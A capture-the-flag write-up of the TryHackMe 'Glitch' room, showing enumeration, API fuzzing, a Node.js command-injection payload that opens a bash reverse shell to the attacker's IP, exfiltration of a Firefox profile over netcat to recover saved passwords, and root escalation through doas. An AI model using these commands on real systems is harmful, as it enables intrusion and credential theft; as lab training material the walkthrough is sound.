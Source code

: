 ```yaml
---
title: "Glitch TryHackMe"
date: "07-28-2021"
author: "Reda BELHAJ"
summary: "This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Created by @infamous55"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/GLITCH/bg.png"
---
```

Let’s take a look at the [Glitch CTF](https://tryhackme.com/room/glitch) on TryHackMe Created by @infamous55.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.204.132 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 80 you guessed it that's HTTP.
![Nmap](/images/GLITCH/nmap.jpg)

After Inspecting the web application we can see an interesting script at the end of the page:
![Nmap](/images/GLITCH/source.jpg)

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/GLITCH/gobuster.jpg)

Actually i run two scans one on the main directory of the application and the other one on tha api directory:
![Gobuster](/images/GLITCH/gobuster2.jpg)

## Exploring 
When I look at the script that I found on the source code of the page I decided to browse into the `/api/access` page and I found a token with a base64 encoded value:

```
{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

So I run this command to decode the token and then I set the cookie and reopen the site:
```
echo dGhpc19pc19ub3RfcmVhbA== | base64 --decode
```
![Token](/images/GLITCH/token.jpg)

With the hint from TryHackMe I decided to try POST method on the items api:
```
curl -X POST http://10.10.204.132/api/items
```

```
{"message":"there_is_a_glitch_in_the_matrix"}
```
It's kinda weird, So There must be a missing parameter or something. Let’s try to fuzz it with **wfuzz**:

```
wfuzz -X POST -w /usr/share/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.204.132/api/items?FUZZ=oops
```
![Wfuzz](/images/GLITCH/wfuzz.jpg)

And Also the “secret” endpoint found with gobuster was just a rabbit hole. After setting the cookie and opening the site, multiple pictures of a rabbit was displayed with a caption that said `Mad`.
![Rabbit](/images/GLITCH/rabbit.png)

## Exploiting
With the payload that we found with **wfuzz** I tried to generate an error:

```
curl -X POST http://10.10.16.166/api/items?cmd=test
```
![Curl](/images/GLITCH/curl.jpg)
It's an error generated by **Node.Js**

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload:

```
require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.50.72/4444+0>%261"')
```
![Burp](/images/GLITCH/burp.jpg)

## User Flag
Now we're in the machine and I decided to take a look at the `package.json` to see the tech stack of the web app:
![Build](/images/GLITCH/build.jpg)

Then I found the user.txt file:
```
THM******************
```

## Root Flag
Inside the home directory of the user I notice a firefoz directory and I decided to compress it and download the archive locally to hopefully get some credentials:

```
tar cf - .firefox/ | nc 10.8.174.180 1234
```
```
nc -lvp 1234 | tar xf -
```
With the help of some blogs and videos I found [this blog](https://www.cyberciti.biz/faq/howto-run-firefox-from-the-command-line/) And I run firefox from the Command Line:

```
firefox --profile .firefox/b5w4643p.default-release --allow-downgrade
```
![Pass](/images/GLITCH/pass.jpg)
We can now switch to v0id:

![Sudo](/images/GLITCH/sudo.jpg)

And now with a fail `sudo -l` command I searched for files owned by root with the SUID:
```
find / -type f -user root -perm -u=s 2>/dev/null
```

And I found `doas` binary and you can run it and found the root flag:

```
doas -u root /bin/bash
```
```
THM*********************************
```